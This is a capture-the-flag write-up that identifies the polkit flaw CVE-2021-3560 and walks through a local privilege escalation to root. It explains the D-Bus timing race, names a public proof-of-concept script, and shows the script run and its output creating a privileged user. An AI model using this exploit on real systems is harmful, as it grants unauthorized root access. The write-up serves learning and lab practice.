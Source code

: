 ## Task 12

What is the 2021 CVE ID for the vulnerability in this version of polkit related to bypassing credential checks for D-Bus requests?

After some search on Google we see the vulnerability `CVE-2021-3560`.

-----------

## Task 13

Submit the flag located in root's home directory.

The steps to exploit this vulnerability:
- We have to login via SSH.
- Trigger `polkit` by sending a `dbus` message, but closing the request abruptly, while the request is being processed. Then send a second request with the previous request's unique bus identifier, to execute the request as `root`.

The vulnerability exists as `polkit` treats the UID of a connection with a bus identifier that no longer exists, as requests from the `root`. So, if we can time the attack correctly and terminate the first request at the right moment, we an request the second one with the privileges of the `root`.

I will use the PoC from `secnigma` at https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation.

Copy the script to the target machine, and add the execute privileges.

```sh
chmod +x PoC.sh
```

We can add here also a username and a password of a user that we want to create.

```sh
./PoC.sh -u=WhitePlis -p=WPSecurity


[!] Username set as : WhitePlis
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username WhitePlis...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username WhitePlis  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - WhitePlis
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```
